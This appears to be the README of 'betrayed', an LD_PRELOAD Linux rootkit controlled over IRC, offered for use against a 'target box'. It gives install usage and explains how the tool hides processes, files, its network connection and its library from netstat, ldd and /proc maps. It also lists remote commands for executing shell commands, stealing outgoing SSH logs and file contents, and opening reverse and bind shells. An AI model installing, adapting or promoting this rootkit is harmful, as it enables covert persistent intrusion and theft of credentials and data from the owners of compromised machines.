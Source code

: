 # betrayed
## basic info
 * betrayed is an LD_PRELOAD Linux rootkit which is controlled mainly from a IRC channel.  
 * it is free of any dependencies, and installs near enough instantly.  
 * processes & files are hidden with a magic GID
 * the connection to the IRC server is hidden from plain sight. `netstat` and similar tools won't show the connection.
 * upon installation, betrayed will create its initial fork process wherein it will connect to the server and join the specified channel.
   * by default, betrayed will only create its process & connect to the server if the calling process has root privs. you can turn this off by defining `DM_ROOT` in the config header.

### usage
 * SEE `src/config.h` FOR SPECIFIC SETTINGS YOU MAY WANT TO CHANGE.
 * ANY OF THE CONFIGURATION VARIABLES DECLARED AT RUNTIME BY `install.sh` CAN BE CHANGED.
   * see function `write_conf` in install.sh for variables that can be altered @ runtime.
   * for example, `NICK` & `SONAME`
     * _example:_ `NICK=mynewnick SONAME=mynewsoname.so ./install.sh` 
`./install.sh <host> '<channel>'`
 * upon successful installation, `install.sh` will `cat /dev/null` straight away
   * causing betrayed to create its main connection process
   * without this, the rootkit will join the channel off of the next adequate process
 * _compile only:_ `COMPILE_ONLY=1 ./install.sh ...` compiles the rootkit in the cwd. 
  
once installed on the target box & assuming you are in your target channel, you will see a new user with a random nick join your channel. this is the box that you just installed betrayed on.

#### available commands
```
 IRC commands:
      to use a command, send "<CMD NAME> <NICK/all> [argument(s)]"
        "!EXEC", // executes given commands & sends resulting output to the channel.
        "!SSHL", // read outgoing ssh logs, send said logs to the channel.
        "!READ", // send file contents to the channel.
        "!REVR", // send a reverse shell to a given hort & port.
        "!BIND", // create a bind shell on given port.
        "!KILL", // remove the rootkit and all of its files and disconnect.
        "!DISC", // just disconnect. we will then reconnect when possible.
        "!INFO", // just send `uname -a` output to the channel.
        "!HELP", // send this command list to the channel.
        "!ADDR"  // send the address of the box to the channel. uses curl.
```

#### notes
##### hiding
 * betrayed hides itself from /proc/\*/maps, smaps, and numa_maps.
 * betrayed hides itself from `ldd`, among others.

##### connection
 * using !EXEC/!INFO may cause a short wait before you can do anything else.